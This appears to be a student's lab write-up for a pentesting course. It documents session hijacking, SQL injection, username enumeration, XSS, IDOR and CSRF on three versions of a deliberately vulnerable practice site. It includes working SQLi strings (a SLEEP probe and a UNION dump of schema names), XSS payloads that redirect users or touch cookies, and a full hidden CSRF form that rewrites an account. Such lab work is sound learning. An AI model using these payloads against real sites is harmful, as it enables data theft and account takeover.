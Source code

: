 # Week 9 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking/Fixation
Steps to recreate:
  1. Log in on one browser and use the hacktools/change_session_id.php script to get your session ID.
  2. On a different browser, change your session ID to match the previous one you recived using hacktools/change_sessions_id.php.
  3. You can now log in to the same account on the new browser without having to enter a password since it has the same session id as the other browser.
  
  ![](SessionHijacking.gif)

Vulnerability #2: SQL Injection (SQLi)

Steps to recreate:
  1. Visit the page of any sales person.
  2. In the url, instead of ```id=??```, write ```id=' OR SLEEP(5)=0--'```, in the sleep() function you can change the seconds to chage the loading time. 
  3. This causes the page to continue loading for the specified amount of time in seconds. 
  
  ![](SQLinj.gif)


## Green

Vulnerability #1: Username Enumeration

Steps to recreate:
  1. Trying to log in with a username that exists results in bold text saying failed to log in. The html class is listed as "failure".
  2. Trying to log in with a username that doesn't exist results in a text saying failed to log in that is not bolded. The html class is also differenct and listed as "failed".
  3. The green developer made different classes for a username that does exist and a username that doesn't exist. The other two developers use the same "failure" class for both cases. 
  
  ![](UserEnum.gif)
  
Vulnerability #2:Cross-Site Scripting (XSS)

Steps to recreate:
  1. Go to the contact tab and fill out the form with the following inside the feedback section:
  ```<script>alert('Owen found the XSS');</script>```
  2. Now when a user logs in and checks the feedback tab, the script will be ran and there will be a message with the alert. 
  
  ![](XSS.gif)

## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

Steps to recreate:
  1. You can view any salesperson's page by changing the value of the id in the url
  2. ID 10 or 11 shouldn't be accessible by a user that is not logged in. When trying to check ID number 10 or 11 for other colors the pages redirect to the main page.
  
  ![](IDOR.gif)

Vulnerability #2:Cross-Site Request Forgery (CSRF)

Steps to recreate:
  1. Logging in and running the html file causes the users name to be changed according to the info entered in the html file. 
  2. For example, if an authenticated user loaded a page with the following sample HTML, the information for salesperson with id 1 will change to whatever is in the html file without the action being visible to the user:
  
  ```
<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="0" height="0" frameBorder="0" id="gif" name="gif"></iframe>

<form action="https://104.198.208.81/red/public/staff/users/edit.php?id=1" method="post" id="leform" target="gif">
    <input name="csrf_token" value="ae0c79a6ab8d30d1c0c147699df11fe8" type="hidden">
    <input name="first_name" value="Owen" type="hidden">
    <input name="last_name" value="Ah" type="hidden">
    <input name="username" value="YouHaveBeenHACKED" type="hidden">
    <input name="email" value="hijacked@email.com" type="hidden">
    <input name="previous_password" value="" type="hidden">
    <input name="password" value="" type="hidden">
    <input name="confirm_password" value="" type="hidden">
  </form>

<script>document.getElementById("leform").submit();</script>

<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="480" height="253" frameBorder="0" class="giphy-embed" allowFullScreen id="gif
" name="gif"></iframe>
```
  
  ![](CSRF.gif)
  
## Optional
  
**Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.**
  
Steps to recreate:
  1. We took advatage of blue and injected the following SQL query in the url to get the names of tables and columns:
    
    ```
    ' AND 0 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name,0x2e,column_name,"\n") FROM information_schema.columns WHERE table_schema=database(); -- -
    ```
    
  ![](Bonus-SQLi.gif)
   
**Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: direct the user to a new URL, read cookie data, set cookie data.**
 
Steps to recreate:
  1. I was able to insert ```<script>document.location="https://www.google.com"</script>``` into the feedback page form to redirect the user to a new URL.
  2. I am sure that inserting ```<script>document.cookie = "username=Jonny";</script>``` into the form would set cookie data and inserting ```<script>alert(document.cookie);</script>``` into the form would read cookie data. However, I was unable to test the XSS because I wasn't able to reset the feedback page therefore the URL redirection is executed before the cookie script can run.
    
  ![](Bonus-1.gif)
  
## Notes

Describe any challenges encountered while doing the work?

This was a bit tedious, I had hard time with writing a html form for cross-site scripting forgery. In general, it took longer than previous weeks as I had to check different targets for different vulnerabilities. Furthermore, not being able to reset the feedback didn't allow me to execute few of the other scripts I wanted to run.  
